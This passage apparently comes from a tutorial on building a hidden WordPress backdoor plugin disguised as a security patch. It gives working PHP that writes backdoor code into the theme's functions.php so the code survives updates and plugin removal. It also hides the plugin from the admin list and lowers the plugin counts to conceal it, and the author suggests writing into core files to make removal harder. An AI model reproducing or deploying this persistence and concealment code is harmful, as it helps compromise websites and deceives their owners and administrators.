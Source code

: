 This part is just the code of the backdoor with the names of the functions modified (to avoid conflicts between the ones in *functions.php* and the ones in the plugin code), the functionality for the injection of the code into the desired line and the functionality that adds the rest of the lines after our backdoor code.

```php
$functions_file = get_template_directory() . '/functions.php';

// Check if the marker exists in functions.php
$marker = '// Custom Code Marker: Do not remove or modify this line';
$current_code = file_get_contents($functions_file);

if (strpos($current_code, $marker) === false) {
    // Add your custom code snippet
    add_action('pre_current_active_plugins', 'add_custom_code_to_functions');
}
```

Now, if we don't add these last few lines of code we will get an error because the plugin will try to write the code into the *functions.php* many times and it will cause an error. To solve it, I have just added a **marker** line and a conditional to check if that line is in *functions.php* or not. If it is, it won't execute the **add_action** so it won't try to write the code.

We are in good track: we are able to persist even if the plugin is deleted and, if the plugin stays it won't cause problems and, if the theme gets updated, the plugin will rewrite the code into *functions.php*. **We could even write to many more files into the core of WordPress for a more difficult deletion in case of discovery of the backdoor**.

But we were taking the **security pacth** approach so we need two more blocks of code: one for hiding the plugin and another one to sustract 1 from the lists - just like we did with the user.

```php
// This block hides the plugin once activated

add_action('pre_current_active_plugins', 'hide_plugin');

function hide_plugin(){
    global $wp_list_table;
    $hidearr = array('wp-backdoor-tut/wp-backdoor-tut.php');
    $myplugins = $wp_list_table->items;
    foreach ($myplugins as $key => $val) {
        if (in_array($key,$hidearr)) {
            unset($wp_list_table->items[$key]);
        }
    }
}

// This block sustract 1 from the count in the views

add_filter('views_plugins', 'custom_plugin_counts');

function custom_plugin_counts($views) {
    // Subtract one from the total count
    $all_plugins = get_plugins();
    $all_plugin_count = count($all_plugins) - 1;
    $class_all = (strpos($views['all'], 'current') === false) ? '' : 'current';
    $views['all'] = '<a href="plugins.php" class="' . $class_all . '">' . __('All') . ' <span class="count">(' . $all_plugin_count . ')</span></a>';

    // Subtract one from the count of active plugins
    $active_plugins = get_option('active_plugins', array());
    $active_plugin_count = count($active_plugins) - 1;
    $class_active = (strpos($views['active'], 'current') === false) ? '' : 'current';
    $views['active'] = '<a href="plugins.php?plugin_status=active" class="' . $class_active . '">' . __('Active') . ' <span class="count">(' . $active_plugin_count . ')</span></a>';

```